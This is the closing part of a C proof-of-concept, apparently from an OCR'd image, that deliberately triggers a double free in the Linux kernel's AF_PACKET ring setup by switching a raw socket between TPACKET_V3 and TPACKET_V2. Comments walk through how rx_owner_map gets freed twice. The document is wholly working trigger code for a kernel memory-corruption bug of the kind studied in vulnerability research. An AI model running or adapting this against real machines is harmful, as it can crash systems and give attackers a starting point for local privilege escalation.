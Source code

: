 ```c
	 * tpacket_v3 does not allocate rx_owner_map, but instead it sets
	 * prb_bdqc, but both are define in a union.
	 */
	if (mess) {
		ring.req3.tp_block_nr = 0;
		ring.req3.tp_frame_nr= 0;
	}
	if (setsockopt(sock, SOL_PACKET, PACKET_RX_RING, &ring.req3,
			 sizeof(ring.req3)) == -1) {
		perror("setsockopt");
		exit(1);
	}
}

int main(void)
{
	sock = socket(PF_PACKET, SOCK_RAW, 0);
	if (sock == -1) {
		perror("socket");
		exit(1);
	}

	set_ver(TPACKET_V3);

	/* Send complete req3 data */
	setup_ring(0);
	/*
	 * Pass tp_block_nr and tp_frame_nr, releases pg_vec, and rb->rw_owner_map
	 * is freed
	 * */
	setup_ring(1);

	/* With pg_vec released, we can change the socket version to TPACKET_V2 */
	set_ver(TPACKET_V2);

	/*
	 * With V2, we send again the tp_block_nr/tp_frame_nr zeroed, so
	 * afpacket does not try to allocate a pg_vec of rx_owner_map and goes
	 * directly to the cleaning part. For V1/V2, it swaps the current
	 * allocated rw_owner_map (which wasn't allocated this time) with the
	 * previously stored rw_owner_map (freed in the second setup_ring call
	 * above).
	 *
	 * Now, double free on the way!
	 */
	setup_ring(1);

	return 0;
}
```
